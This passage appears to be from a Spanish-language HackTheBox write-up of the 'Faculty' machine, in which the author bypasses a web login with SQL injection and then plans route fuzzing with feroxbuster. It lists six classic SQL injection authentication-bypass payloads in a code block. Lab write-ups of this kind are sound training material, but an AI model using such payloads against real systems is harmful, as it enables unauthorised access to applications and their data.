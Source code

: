 Por lo visto, es vulnerable a sqli, asique pruebo a meter algún payload sqli.

Metiendo una lista simple de inyecciones sql simples a través del intruder encuentro varias inyecciones que podrían servirme:

```bash
# Payloads SQL
--------------
´ OR ´1
´ or 1 -- - 
´ OR " = ´
´=´
´ or ´x´=´x
´ or 1=1#
```

Al introducir uno de estos payloads sql en el campo id del servidor web podremos acceder al mismo.

![](/assets/images/HTB/Faculty-HackTheBox/web2.webp)

Pero no hay nada de interés por lo que voy a fuzzear rutas en el servidor con la herramienta feroxbuster.
